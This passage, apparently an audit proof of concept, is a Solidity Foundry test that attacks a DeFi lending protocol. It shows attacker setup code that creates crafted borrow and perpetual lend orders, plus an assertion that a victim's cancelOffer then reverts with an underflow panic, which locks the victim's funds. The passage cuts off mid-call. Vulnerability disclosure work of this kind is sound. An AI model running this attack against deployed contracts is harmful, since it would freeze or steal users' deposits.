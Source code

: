 ```solidity
        console.log("Last active lend order with index 99 after the attack:", DLOFactory(DLOFactoryContract).allActiveLendOrders(99), "\n");

        vm.startPrank(user);
        console.log("----------user try to withdraw funds-------------");

        // reverts happen do to the 
        vm.expectRevert(abi.encodeWithSelector(bytes4(keccak256("Panic(uint256)")), 0x11));
        DLOImplementation(lastUserLendOrder).cancelOffer();
        console.log("Cancel offer function on user lend order reverts with panic: arithmetic underflow or overflow (0x11) error");

        vm.stopPrank();

    }

    function prepareAttack() public {

        deal(AERO, attacker, 1000e18, false);
        
        IERC20(AERO).approve(address(DBOFactoryContract), 1000e18);
        IERC20(AERO).approve(address(DLOFactoryContract), 1000e18);

        bool[] memory oraclesActivated = allDynamicData.getDynamicBoolArray(1);
        uint[] memory ltvs = allDynamicData.getDynamicUintArray(1);
        uint[] memory ratio = allDynamicData.getDynamicUintArray(1);

        address[] memory acceptedPrinciples = allDynamicData
            .getDynamicAddressArray(1);
        address[] memory oraclesPrinciples = allDynamicData
            .getDynamicAddressArray(1);

        ratio[0] = 1e18;
        oraclesPrinciples[0] = address(0x0);
        acceptedPrinciples[0] = AERO;
        oraclesActivated[0] = false;
        ltvs[0] = 0;

        // attacker creates specific borrow order 
        address borrowOrderAddress = DBOFactoryContract.createBorrowOrder(
            oraclesActivated, 
            ltvs,
            1000,
            864000,
            acceptedPrinciples,
            AERO,
            false,
            0, 
            oraclesPrinciples,
            ratio,
            address(0x0), 
            10e18 
        );

        // attacker creates specific perpetual lend order 
        address lendOrderAddress = DLOFactoryContract.createLendOrder(
            true,
            oraclesActivated, 
            true, 
            ltvs, 
            1000,
            8640000, 
            86400,
```